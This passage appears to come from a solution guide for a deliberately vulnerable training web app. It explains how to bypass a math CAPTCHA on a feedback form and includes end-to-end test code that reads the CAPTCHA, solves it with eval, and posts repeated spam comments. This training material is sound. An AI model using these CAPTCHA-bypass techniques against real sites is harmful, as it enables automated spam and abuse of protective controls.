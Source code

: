 Two alternate (but more complex) solutions:
* Rewrite your script so that it _parses the response from each CAPTCHA
  retrieval call_ to <http://localhost:3000/rest/captcha/> and sets the
  extracted `captchaId` and `answer` parameters in each subsequent form
  submission as `captchaId` and `captcha`.
* Using an automated browser test tool like
  [Selenium WebDriver](https://www.seleniumhq.org/) you could do the
  following:
  1. Read the CAPTCHA question from the HTML element `<code id="captcha"
     ...>`
  2. Calculate the result on the fly using JavaScript
  3. Let WebDriver write the answer into the `<input
     name="feedbackCaptcha" ...>` field.

The latter is actually the way it is implemented in the end-to-end test
for this challenge:

```javascript
  let comment, rating, submitButton, captcha

  beforeEach(() => {
    browser.get('/#/contact')
    comment = element(by.id('comment'))
    rating = $$('.br-unit').last()
    captcha = element(by.id('captchaControl'))
    submitButton = element(by.id('submitButton'))
    solveNextCaptcha()
  })

  describe('challenge "captchaBypass"', () => {
    it('should be possible to post 10 or more customer feedbacks in less than 10 seconds', () => {
      for (var i = 0; i < 11; i++) {
        comment.sendKeys('Spam #' + i)
        rating.click()
        submitButton.click()
        browser.sleep(200)
        solveNextCaptcha() // first CAPTCHA was already solved in beforeEach
      }
    })

    protractor.expect.challengeSolved({ challenge: 'CAPTCHA Bypass Tier 1' })
  })

  function solveNextCaptcha () {
    element(by.id('captcha')).getText().then((text) => {
      const answer = eval(text).toString() // eslint-disable-line no-eval
      captcha.sendKeys(answer)
    })
  }
```

_It is worth noting that both alternate solutions would still work even
if the CAPTCHA-pinning problem would be fixed in the application!_
